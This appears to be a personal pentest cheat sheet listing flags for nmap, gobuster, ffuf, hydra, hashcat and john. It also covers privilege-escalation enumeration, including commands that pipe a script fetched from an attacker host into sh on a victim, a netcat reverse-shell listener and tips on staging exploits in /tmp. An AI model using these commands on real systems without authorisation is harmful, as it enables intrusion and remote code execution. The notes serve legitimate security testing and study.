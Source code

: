 ### My current Pentest Cheatsheet   
Updated: *11.05.2023*

**Nmap:**
```bash
Example: nmap -A -p- <address> -oA filename 
Everything: -A
Enumerate Versions: -sV
Default Scripts: -sC
Syn Scan: -sS
All Ports: -p-
Output (All Formats): -oA filename
```

**Gobuster**
```bash
# Directories
gobuster dir -w /usr/share/wordlists/dirb/small.txt -u http://address

# Vhosts
gobuster vhost -w /usr/share/wordlists/dirb/small.txt -u address --append-domain
```

**Ffuf**
```bash
# Sites
ffuf -w /path/to/wordlist -u https://target/FUZZ

# Vhosts
ffuf -c -w /path/to/wordlist -u http://ffuf.io.fi -H "Host: FUZZ.ffuf.io.fi"

# Filter out response length
-fs <bytesize>
```

---
**Hydra:**
- SSH   
```bash
Example: hydra -l user -p pass 127.0.0.1 ssh
User: -l
User File: -L
Password: -p
Password File: -P
Port: -s
Tasks: -T
```

**Searchsploit:**
```bash
Example: searchsploit SOMETHING
Read Exploit: -x
Copy to current location: -m
```

**SQLi Cheatsheet:** 
https://portswigger.net/web-security/sql-injection/cheat-sheet

---
**Hashcat:**
```bash
Hash Mode: -m <id>
   0 | MD5
1400 | SHA2-256 
1700 | SHA2-512

Attack Mode: -a <id>
0 for dictionary
---
3 for mask
Masks:
  ?l | low caps
  ?u | high caps
  ?d | numbers
  ?h | numbers + low caps
  ?H | numbers + high caps
  ?s | special characters
  
Workload 1-4: -w <id>
Disable Potfile: --potfile-disable
Show Cracked Hashes: --show
Out File: -o
Usernames in Hashfile: --username
```

**John:**
```bash
john --wordlist=/path/file hash.file
```

---
**PrivEsc stuffz:**
```bash
sudo -l
Find Group Owned Files: find / -group <group-name>
Find SUID: find / -perm -4000
Find GUID: find / -perm -2000
Listening Ports: netstat -tulnp
Listening Ports: ss -ltnp
Find World Readable: find / -perm -o+w
```
**Find**
- Disable "permission denied and stuffs" printing:   
```bash
find / -name <something> 2>/dev/null
```

**Good place to put exploits, scripts and stuffs on victim:**   
```bash
 /dev/shm/
 /tmp/
```

**Send files from Attacker to Target:**     
```bash
sudo python -m http.server PORT #Host
wget ATTACKERIP:PORT/filename #Victim
```
OR:   
**Run script over the network:**   
```bash
# Local network
sudo python3 -m http.server 80 #Host
curl <ip_address>/script.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < script.sh #Host
cat < /dev/tcp/<ip_address>/<port> | sh #Victim
```
Source: [Linpeass](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

**Reverse shells:**   
Host, netcat listener:    
```bash
nc -lvnp PORTNUMBER  
```
Shells:   
pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet   
https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/

---
**Improved shell:**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

CTRL + z

stty raw -echo; fg
export TERM=xterm
```
